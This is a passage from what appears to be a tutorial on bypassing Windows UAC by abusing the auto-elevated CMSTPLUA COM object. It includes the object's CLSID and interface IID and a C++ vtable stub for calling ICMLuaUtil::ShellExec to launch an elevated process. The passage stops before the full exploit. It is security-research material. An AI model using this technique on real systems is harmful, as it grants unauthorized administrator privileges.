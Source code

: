 Using OleView, we can see the COM class object and it's exposed interfaces:

![image](https://github.com/user-attachments/assets/81c0d00e-6f4f-4c6d-a829-88a25d605ecc)

We can also use OleView to see that it is both AutoApproved to bypass UAC and also Elevated:

![image](https://github.com/user-attachments/assets/96addef6-29ab-4ae4-b4e5-e25f82c510d2)

How about the ShellExec function call within the interface?  Yeah, we can see that too if you like 😸  Just fire up Binary Ninja and open `C:\Windows\System32\cmlua.dll`:

![image](https://github.com/user-attachments/assets/1fef1167-3f72-4d68-a9a9-550badd11c01)

Let's bring it all together.  We will be doing the following:

- Call CoCreateInstance(CMSTPLUA CLSID, ..., IID_ICMLuaUtil, ...).

- Receive an ICMLuaUtil* interface pointer.

- Call ICMLuaUtil::ShellExec(...) → results in an elevated process of our choosing

Now time for some code!  We will be using Visual Studio per the usual routine.  We will define our CLASS object CLSID and Interface CLSID as can be seen below.  

```cpp

#include "pch.h"
#include <shlobj.h>
#include <atlbase.h>
#include <shellapi.h> 

#pragma comment(lib, "shell32.lib") 

const wchar_t* CLSID_CMSTPLUA = L"{3E5FC7F9-9A51-4367-9063-A120244FBEC7}";
const wchar_t* IID_ICMLuaUtil = L"{6EDD6D74-C007-4E75-B76A-E5740995E24C}";
```

 Next, we need to define the vftable (virtual function table), which is a hidden structure created by the compiler that holds pointers to the virtual functions of a class.  In our case, we are interested in the 7th Function/Method in the list, `ShellExec`.  AddRef() and Release() are considered inherited so we don't have to include them.  So technically we're setting up function/method stubs for SetRasCredentials to ShellExec.  It has to be in order by the way, so you can't just exclude the other methods and just point to ShellExec. 

![image](https://github.com/user-attachments/assets/0aa3b9fe-c6ab-46ba-b367-d2684daf17a2)


```cpp
struct ICMLuaUtil : public IUnknown {
    virtual HRESULT STDMETHODCALLTYPE Method1() = 0;
    virtual HRESULT STDMETHODCALLTYPE Method2() = 0;
    virtual HRESULT STDMETHODCALLTYPE Method3() = 0;
    virtual HRESULT STDMETHODCALLTYPE Method4() = 0;
    virtual HRESULT STDMETHODCALLTYPE Method5() = 0;
    virtual HRESULT STDMETHODCALLTYPE Method6() = 0;
    virtual HRESULT STDMETHODCALLTYPE ShellExec(
        LPCWSTR lpFile,
        LPCWSTR lpParameters,
        LPCWSTR lpDirectory,
        ULONG fMask,
        ULONG nShow) = 0;
};
```
